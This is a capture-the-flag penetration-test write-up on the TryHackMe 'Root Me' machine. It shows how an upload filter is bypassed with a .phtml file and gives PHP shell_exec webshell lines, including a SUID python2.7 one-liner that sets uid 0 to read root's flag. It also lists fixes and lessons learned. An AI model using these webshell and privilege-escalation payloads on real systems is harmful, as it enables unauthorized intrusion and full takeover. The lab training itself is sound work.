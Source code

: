 # Vulnerability Assessment and Penetration Testing (VAPT) Report  
## Root Me (TryHackMe)  

**Prepared by:** Anonymous Pentester  
**Date:** August 11, 2025  
**Difficulty:** Easy  
**Platform:** [TryHackMe](https://tryhackme.com)  
**Category:** Web Exploitation / Privilege Escalation  

---

## 📋 Executive Summary  

The **Root Me** TryHackMe machine was successfully exploited through insecure file upload functionality and privilege escalation via an SUID misconfiguration.  
By bypassing file upload restrictions, achieving remote code execution, and leveraging a Python SUID binary, full system compromise was achieved — including capture of both **user** and **root** flags.  

---

## 🎯 Scope  

Conduct an external penetration test on the *Root Me* box to:  
- Identify open services.  
- Exploit web upload vulnerabilities to gain a foothold.  
- Escalate privileges to root.  
- Extract sensitive flags.  

---

## 🚨 Key Vulnerabilities  

| Vulnerability                  | Impact                                           | Fix                                                    |
|--------------------------------|--------------------------------------------------|--------------------------------------------------------|
| Insecure File Upload           | Allowed arbitrary script upload and execution    | Restrict allowed file types, verify MIME type server-side |
| Weak File Validation Logic     | Bypassed `.php` restriction with `.phtml`         | Implement stricter file whitelist with server-side checks |
| SUID Misconfigured Binary      | Python executable allowed privilege escalation   | Remove SUID from interpreters or limit executable permissions |

---

## 🛠 Exploitation Steps  

### **1. Reconnaissance**  
- **Command:**
```bash
nmap -sV <target_ip>
```

text
- **Finding:** Open port **80** (HTTP) serving a website with file upload functionality.

---

### **2. File Upload Bypass**  
- The upload form blocked `.php` files.  
- **Bypass Method:** Uploaded a malicious `.phtml` file.  
- **Tool Used:** *Burp Suite* to intercept the request and change the file extension from `.php` to `.phtml`.  

---

### **3. Remote Code Execution**  
- **Test Command:**
```php
<?php echo shell_exec("ls -l"); ?>
```
text
Confirmed the `.phtml` file was being executed by the server.

- **User Flag Command:**
```php
<?php echo shell_exec("find / -name user.txt 2>/dev/null -exec cat {} \;"); ?>
```
text
Captured **user.txt**.

---

### **4. Privilege Escalation**  
- **SUID Check:**
```php
<?php echo shell_exec("find / -user root -perm /4000 2>/dev/null"); ?>
```
text
Found `/usr/bin/python2.7` with SUID bit.

- **Exploit Command:**
```php
<?php echo shell_exec('/usr/bin/python2.7 -c \'import os,sys; os.setuid(0); sys.stdout.write(open("/root/root.txt","r").read())\' 2>&1'); ?>
```
text
Captured **root.txt**.

---

## 🧠 Lessons Learned  

- Secure file upload features by validating **both extension and MIME type** server-side.  
- Avoid allowing interpreters (Python, Perl, Bash) to have the SUID bit set.  
- Use principle of least privilege to prevent privilege escalation.  

---

## 💻 Skills Demonstrated  

- Service enumeration (`nmap`)  
- File upload bypass (extension manipulation + Burp Suite)  
- PHP webshell exploitation  
- Privilege escalation via SUID Python binary  

---

## 🛠 Tools Used  

- **nmap** – service discovery  
- **Burp Suite** – request interception & file extension modification  
- **PHP Webshell** – remote command execution  
- **find** – system search for flags and SUID binaries  

---

## 🌟 Final Thoughts  

The Root Me machine demonstrates how insecure file upload functionality combined with poor privilege management can lead to total system compromise. Proper input validation, service hardening, and permission auditing are crucial to protecting against such attacks.
